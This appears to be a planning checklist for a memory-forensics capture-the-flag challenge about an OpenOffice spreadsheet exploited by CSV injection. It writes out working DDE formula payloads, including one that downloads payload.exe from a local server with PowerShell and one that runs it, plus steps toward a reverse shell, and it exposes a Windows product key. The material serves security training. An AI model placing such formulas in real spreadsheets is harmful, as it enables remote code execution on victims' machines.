

Description:
A finance department employee opened a spreadsheet using OpenOffice to view financial data. Unknown to the employee, this spreadsheet contained a malicious payload that exploited the machine with CSV injection vulnerability. The exploit led to the download and execution of malware, establishing a reverse shell connection to an external server.

The company's IT security team detected this event and isolated the machine. They've provided you with a memory dump for analysis.

Key Points:
- Initial vector: OpenOffice spreadsheet
- Exploit method: CSV injection
- Payload: Malicious executable
- End result: Reverse shell connection

Challenge Testing Stage:
- [x] CSV injection with DDE (cmd)
	- `=DDE(“cmd”;”/C calc”;”!A0″)
- [x] CSV injection with DDE (powershell)
	- `=DDE("cmd";"/C powershell";"!A0")
	- `=DDE("powershell";"/C`
- [x] CSV injection with DDE (ping localhost)
	- `=DDE("cmd";"/C ping localhost";"!A0")`
	- `=DDE("powershell";"Test-Connection -ComputerName localhost";"!A0")`
- [x] CSV injection with DDE (download trojan .exe)
	- `=DDE("powershell";"Invoke-WebRequest -Uri 'http://192.168.1.157/Desktop/payload.exe' -OutFile 'C:\Users\FinanceDept\Desktop\payload.exe'";"!A0")`
- [x] CSV injection with DDE (execute trojan .exe)
	- `=DDE("cmd";"/C/Users/FinanceDept/Desktop/payload.exe";"!A0")`
- [x] Trojan run ps1 script execute flag storing at /temp
- [x] If possible try to obfuscate ps1 script
- [ ] CSV injection with DDE (initiate reverse-shell)
	- `=DDE("cmd";"/C/Users/FinanceDept/Desktop/payload.exe";"!A0")`
- [x] Reverse shell delete flag file (https://medium.com/@jbtechmaven/ethical-hacking-reverse-shell-attack-using-metasploit-57e9cd400c88)

Challenge Creation Stage:
- [x] Windows 8.1 (Product Key 84NRV-6CJR6-DBDXH-FYTBF-4X49V) https://youtube.com/watch?v=Sgfa25ltul4
- [x] OpenOffice 4.0.1 (CVE-2014-3524) (https://nvd.nist.gov/vuln/detail/CVE-2014-3524)
- [x] USB File Transfer (CSV injected spreadsheet - Financial Documentation)
- [x] CSV injection Part #1: Powershell script create flag at \\temp 
- [x] CSV injection Part #2: Powershell script initiate reverse shell to (malware payload)
- [x] Attack machine: Delete flag at \\temp or modify existing file
- [x] Dump memory 

